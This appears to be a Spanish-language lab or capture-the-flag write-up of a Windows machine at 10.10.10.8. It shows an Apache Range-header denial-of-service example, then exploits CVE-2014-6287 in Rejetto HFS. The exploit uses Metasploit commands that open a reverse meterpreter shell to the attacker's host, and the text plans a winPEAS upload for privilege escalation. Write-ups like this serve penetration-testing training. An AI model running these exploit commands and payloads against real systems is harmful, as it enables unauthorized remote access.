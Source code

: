 Ejemplo de cabecera maliciosa:

```
Range: bytes=0-1,0-2,0-3,...,0-999999999
```

- Esto hace que Apache intente procesar miles de rangos, lo cual agota la memoria.

## Impacto

- No permite ejecucion de codigo ni acceso no autorizado.
- Solo provoca caida del servidor web (DoS).
- Puede ser explotado sin autenticacion
- Muy simple de ejcutar en versiones vulnerables.


Pero en esta caso para aprovechar un RCE, vamos usar el siguiente CVE: CVE-2014-6287

Descripcion:

- Afecta a versiones de HSF <= 2.3c
- Se debe a una falta de validacion en los parametros de una plantilla de scripting.
- Un atacante puede ejecutar comandos arbitrarios del sistema operativo a traves de una URL especialmente creada.

Tipo de vulnerabilidad: RCE (Remote Command Execution)

## Vamos a explotar la vulnerabilidad con Metasploit:

```
msfconsole

use exploit/windows/http/rejetto_hfs_exec
set RHOST 10.10.10.8
set RPORT 80
set LHOST ip
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
```

Encontramos el user.txt en kostas/Desktop/user.txt

![Pasted image 20250522195207.png](/img/user/imgs/Pasted%20image%2020250522195207.png)

Procederemos a subir winpeas con metasploit:

Damos un:
- sysinfo

Este comando se usa principalmente en Meterpreter (Metasploit) para obtener informacion del sistema comprometido.

![Pasted image 20250522195623.png](/img/user/imgs/Pasted%20image%2020250522195623.png)

Con esto podemos saber si el sistema es de 64 bits o 32 bits por ejemplo.

Descargaremos winpeas desde aqui: https://github.com/peass-ng/PEASS-ng/releases
